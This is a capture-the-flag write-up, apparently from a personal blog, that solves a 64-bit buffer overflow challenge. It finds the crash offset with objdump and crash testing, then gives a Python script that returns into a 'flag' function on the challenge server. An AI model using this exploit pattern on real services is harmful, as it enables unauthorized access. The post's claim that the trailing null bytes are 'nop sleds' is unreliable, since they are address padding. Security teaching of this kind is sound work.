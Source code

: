 The challenge files ->[here](https://github.com/anushang/CTFs)  
Read about basics here before reading this post. [READ](https://owasp.org/www-community/vulnerabilities/Buffer_Overflow)  
This challenge was simple and fun as it involved overflowing beer ;)  
![_config.yml]({{ site.baseurl }}/images/bofgit2.png)

As you can already guess by the looks of it, it's a buffer overflow challenge and all we have to do is overflow the stack and get our stack pointer to point to a location in a memory which we can take advantage of.  
Let's quckly check if is vulnerable to the attack.
![_config.yml]({{ site.baseurl }}/images/bofgit1.png)

bingo!
We just sent random characters and we go a segmentation fault error!
So all now we have to do are these things:
1. Reverse the ELF and find something to jump upon.
2. Find it's address on stack.
3. Make a python script to pwn the challenge.  
There are many ways to do this.    
We can use Ghidra to find what ELF do and what their funcions do. I will just list the functions using objdump.
```
objdump -d beer
```
In the output the function *flag* looks interesting.
![_config.yml]({{ site.baseurl }}/images/gitbof3.png)

Jot down the address of the function and now we have to make simple python script to launch the attack.  
How do we create the payload(aka our strings to send in our exploit)?
1. Find the offset and note it down.
2. Use the function address which we just noted down and make the program return to it.  
To find the offset just send bunch of characters and notice at what lenth the program crashes.
Our beer program crashed when we sent more than 72 characters.
![_config.yml]({{ site.baseurl }}/images/gitbof4.png)

As we have already noticed beer is ELF 64-bit LSB executable, so we have to write the address in Little endian format "\x10\x12\x40".  
Now we write the exploit.
```python
import socket
buf="A"*72 +"\x10\x12\x40"+"\x00"*5
try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(("172.105.53.6",32771))
    s.recv(4000)
    print s.recv(1024)
    s.send(buf+"\r\n")
    print s.recv(1024)
    print s.recv(1024)

    
except:
    print "Error try again!"
```
and it worked! The flag was returned.  
If you are wondering what heck are bunch of \x00 in the end, they are just nop sleds.


